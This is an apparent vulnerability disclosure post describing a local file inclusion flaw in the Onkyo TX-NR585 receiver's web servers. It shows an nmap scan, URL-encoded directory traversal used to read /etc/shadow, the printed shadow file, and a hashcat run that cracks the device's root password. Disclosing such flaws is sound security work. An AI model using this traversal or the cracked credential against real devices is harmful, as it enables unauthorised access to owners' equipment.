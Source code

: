```yaml
---
layout: post
title: LFI Within Onkyo TX-NR585 Web Interface
gh-badge:
  - star
  - fork
  - follow
tags:
 - Local File Inclusion 
 - exploit
 - onkyo
 - web
comments: true
published: true
date: '2020-04-27'
---
```


Vendor: https://www.onkyousa.com/

Known Affected Versions:
TX-NR585 Firmware Version 1000-0000-000-0008-0000

### Description:
Within the Onkyo TX-NR585 Radio Reciever there is a local file inclusion vulnerability that can be exploited on the built in webserver(s) on the device. A weakly implemented filter can be bypassed with basic URL encoding techniques (%2e%2e%2f) to expose sensitive files on the system


## Steps to reproduce:

* Locate the Onkyo Reciever on your network 

* Access any of the web servers running on the device, several can be found by running a simple nmap scan:

```
root@pvris:~#nmap -sT -vvv 192.168.0.80
Reason: 993 no-responses
PORT      STATE SERVICE        REASON
80/tcp    open  http           syn-ack
5000/tcp  open  upnp           syn-ack
8008/tcp  open  http           syn-ack
8009/tcp  open  ajp13          syn-ack
8080/tcp  open  http-proxy     syn-ack
8888/tcp  open  sun-answerbook syn-ack
10001/tcp open  scp-config     syn-ack

```

Any port accessible above is running a webserver that is vulnerable to Local File Inclusion.

* Capture a HTTP Request to the reciever in Burpsuite and send it into Repeater with Control + R

[3d04010747ebc5c102416244e582fc56.png](https://blog.spookysec.net/img/3d04010747ebc5c102416244e582fc56.png)

* Modify the URL to %2e%2e%2f to traverse back a directory, creating several sets of these, we are able to hit the root of the file system, from there we can then attempt to disclose a sensitive file (such as /etc/shadow as seen in the screenshot below)

[f4f5cded13d2186856e436a0db551891.png](https://blog.spookysec.net/img/047c71ec6e2443dfa39dd6418957ac68.png)

* Sucess, we have disclosed a sensitive file on the system. LFI has been achieved.

* For fun, now we have the password hashes out of /etc/shadow, lets try and crack it!

```
root:$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:16610:0:99999:7:::
daemon:*:16610:0:99999:7:::
bin:*:16610:0:99999:7:::
sys:*:16610:0:99999:7:::
sync:*:16610:0:99999:7:::
games:*:16610:0:99999:7:::
man:*:16610:0:99999:7:::
lp:*:16610:0:99999:7:::
mail:*:16610:0:99999:7:::
news:*:16610:0:99999:7:::
uucp:*:16610:0:99999:7:::
proxy:*:16610:0:99999:7:::
www-data:*:16610:0:99999:7:::
backup:*:16610:0:99999:7:::
list:*:16610:0:99999:7:::
irc:*:16610:0:99999:7:::
gnats:*:16610:0:99999:7:::
nobody:*:16610:0:99999:7:::
chrome:!:16610:0:99999:7:::
messagebus:!:16610:0:99999:7:::
ntp:!:16610:0:99999:7:::
avahi-autoipd:!:16610:0:99999:7:::
```

Loading the root password hash into hashcat, we are able to crack it relatively quickly, in about a minutes time:

```
.\hashcat.exe -m 1800 -a 0 ..\onkyo.hash E:\Wordlists\rockyou.txt
hashcat (v5.1.0-1770-g2c94c003) starting...

$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:morimori

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8...jGT3H0
Time.Started.....: Mon Apr 27 00:58:27 2020 (33 secs)
Time.Estimated...: Mon Apr 27 00:59:00 2020 (0 secs)
Guess.Base.......: File (E:\Wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18675 H/s (10.38ms) @ Accel:1 Loops:64 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 614400/14344384 (4.28%)
Rejected.........: 0/614400 (0.00%)
Restore.Point....: 599040/14344384 (4.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: poptart15 -> mizzmoss
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 99% Core:1987MHz Mem:3802MHz Bus:8

Started: Mon Apr 27 00:58:00 2020
Stopped: Mon Apr 27 00:59:01 2020
```

Interesting, the cracked password is morimori, which is a Japanese word: もりもり. This actually makes a bit of sense seeing that Onkyo is a Japanese company.

